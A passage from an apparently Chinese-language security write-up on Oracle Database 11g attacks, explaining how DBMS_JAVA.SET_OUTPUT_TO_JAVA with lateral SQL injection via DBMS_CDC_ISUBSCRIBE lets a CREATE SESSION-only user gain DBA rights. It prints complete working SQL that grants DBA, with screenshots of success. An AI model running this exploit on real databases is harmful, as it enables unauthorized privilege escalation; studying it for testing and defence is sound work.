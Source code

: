
`NUMBER`类型同样也可以污染：

![1609839627702.png](https://i.loli.net/2021/03/06/OAMHQTVwstbRxkm.png)



## 0x03 权限提升

### 1. SET_OUTPUT_TO_JAVA

> 测试环境：
> Oracle Database 11g Enterprise Edition Release 11.2.0.1.0 - 64bit
> 
> 权限要求：
> + `CREATE SESSION`

利用`DBMS_JAVA.SET_OUTPUT_TO_JAVA()`函数的特性来提升只拥有`CREATE SESSION`的用户的权限

#### (1) 原理

该函数可以利用前面提到的Lateral SQL Injection来进行注入，进而获取DBA权限，先来看他的参数：

![1609856667402.png](https://i.loli.net/2021/03/06/us74IDTc8OWdBPZ.png)

其中后两个参数允许我们传入SQL语句

这个函数允许用户在另一个新的虚拟session中重定向java输出写入到`System.out`和`System.err`，最后两个参数的SQL语句将在这个新session中执行

如果攻击者可以得到一个属于SYS的使用java的package并将它写入`System.out`和`System.err`，那么这个新会话的所属者就是SYS，进而所执行的SQL语句也将以SYS权限执行

而`DBMS_CDC_ISUBSCRIBE`正是一个符合条件package，它可被public执行，属于SYS并且是definer权限执行，通过将无效的订阅名传递给这个包的`e INT_PURGE_WINDOW`过程，则可以将错误强制写入`System.err`，随后将以SYS权限执行前一个请求的参数中提供的SQL语句

#### (2) 利用


``` sql
-- 注意替换GRANT语句中的用户名
SELECT DBMS_JAVA.SET_OUTPUT_TO_JAVA('ID','oracle/aurora/rdbms/DbmsJava','SYS','writeOutputToFile','TEXT', NULL, NULL, NULL, NULL,0,1,1,1,1,0,'DECLARE PRAGMA AUTONOMOUS_TRANSACTION; BEGIN EXECUTE IMMEDIATE ''GRANT DBA TO SIMPLEUSER1''; END;', 'BEGIN NULL; END;') FROM DUAL;

-- 这句执行会报错，但不影响结果
EXEC DBMS_CDC_ISUBSCRIBE.INT_PURGE_WINDOW('NO_SUCH_SUBSCRIPTION',SYSDATE());

-- 这句其实要不要都行，不执行的话直接grant赋权也行
set role dba;
```

![1609598931742.png](https://i.loli.net/2021/03/06/xXPUcymkrH7noBC.png)

可以看到普通用户已经成为DBA，并拥有DBA的权限

![1609599257329.png](https://i.loli.net/2021/03/06/UD8Qyof2PFvKZGV.png)
